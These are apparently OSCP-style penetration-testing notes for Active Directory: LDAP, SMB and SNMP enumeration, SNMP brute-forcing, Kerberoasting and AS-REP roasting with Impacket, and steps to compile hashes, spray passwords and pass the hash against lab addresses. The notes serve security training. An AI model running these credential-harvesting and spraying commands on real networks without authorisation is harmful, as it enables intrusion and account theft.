 #### On Kali
##### LDAP
- `ldapsearch -x -H ldap://172.16.250.10 -D 'medtech\wario' -w 'Mushroom!' -b 'DC=MEDTECH,DC=COM'`
- `ldapsearch -x -H ldap://172.16.250.10 -D 'wario' -w 'Mushroom!' -b 'DC=MEDTECH,DC=COM'`

##### SMB
- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' -d 'oscp.exam' --shares`
- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --local-auth --shares`
- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --sessions`
- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --lusers`
 
##### SNMP
- `sudo nmap -sU -p 161 --script snmp-brute 192.168.194.149`
- `sudo nmap -sU -p 161 --script snmp-win32-users 192.168.194.149`
- `onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 192.168.194.149`
- `snmpwalk -v 1 -c public 192.168.194.149 NET-SNMP-EXTEND-MIB::nsExtendObjects`
- `snmpwalk -v2c -c public 192.168.194.149 | grep <string>`
	- STRING
	- USER
	- PASSWORD
	- hrSWRunParameters
	- -i "login\|fail"
	- `-E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b"`

##### Impacket
###### Kerberos
`impacket-GetUserSPNs corp.com/meg:'VimForPowerShell123!' -dc-ip 192.168.201.70 -outputfile hashes.kerb`
###### AS-REP Roast
`impacket-GetNPUsers corp.com/meg:'VimForPowerShell123!' -dc-ip 192.168.201.70 -outputfile dave.hash`



---

### 03. Compile 
- Make a list of users
	- make sure to differentiate `local` and `domain` users!
- Make a list of hashes and passwords or anything you think might be a password
	- `domain_hashes.txt`
	- `domain_passwords.txt`
- Check the `password policy` to make sure you're not locking yourself out
	- **On Windows:**`net accounts /domain`
	- **On Kali:** `cme smb 172.16.10.10 --pass-pol` (Might need valid creds)


---

### 04. SPRAY EVERYTHING
- specify with and without domain
- [[[Pass the Hash]]](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
